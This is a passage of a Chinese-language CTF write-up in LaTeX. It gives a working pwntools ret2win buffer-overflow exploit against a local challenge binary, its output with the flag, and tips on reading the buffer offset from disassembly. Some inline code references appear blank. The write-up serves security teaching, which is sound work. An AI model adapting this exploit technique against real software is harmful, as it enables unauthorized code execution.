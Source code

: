 \begin{lstlisting}[style=py]
#!/usr/bin/env python3
from pwn import *

context.arch = 'amd64'
context.log_level = 'info'

BIN = '/home/kzzz/Documents/code/ctf/ctf7/pwn/work/weakness/soul'
elf = ELF(BIN, checksec=False)

SOUL_STONE = elf.symbols['soul_stone']      # 0x4011b6
RET        = 0x40101a                       # 對齊用（同上一章）

OFFSET = 0x20 + 8                           # buf[0x20] + saved rbp

payload  = b'A' * OFFSET
payload += p64(RET)
payload += p64(SOUL_STONE)

io = process(BIN, cwd=os.path.dirname(BIN))
io.sendlineafter(b'Enter your name: ', payload)
print(io.recvall(timeout=2).decode(errors='replace'))
\end{lstlisting}

\subsection{執行結果}

\begin{lstlisting}[style=raw]
Hello, AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA@!
The Soul Stone remains sealed...

[+] Soul Stone unlocked!
OWASP{S0ul_St0ne_Buff3r_0v3rfl0w}
[*] Process stopped with exit code -11 (SIGSEGV)
\end{lstlisting}

\begin{warnbox}
 執行完  時，stack 上接下來那格是我們亂填的資料，
所以它一跳就爆。\textbf{flag 已經印出來了，不影響得分。}
反過來說，這也是判斷「你打對了」的一個線索：\emph{有印出目標訊息 + 隨後 SIGSEGV}
通常代表「chain 頭對、尾巴沒收乾淨」。
\end{warnbox}

\subsection{這題多學到的一件事：offset 要用組語驗證}

很多人在這一步會猜錯。假設你只看到 ，你可能會想「那 buffer 是 0x20」；
但  指的是\textbf{整個 frame} 少 0x20，不一定等於 buffer 大小。
真正的答案永遠在  前面那一行：

\begin{lstlisting}[style=asm]
lea    rax,[rbp-0x20]     ; <== 這個 -0x20 才是 buffer 起點
mov    rdi,rax
call   gets@plt
\end{lstlisting}

\begin{keybox}[養成反射動作]
看到  /  / ，就往回找它的第一個參數是
 還是 ，\textbf{那個數字才是 buffer 大小}。
\end{keybox}
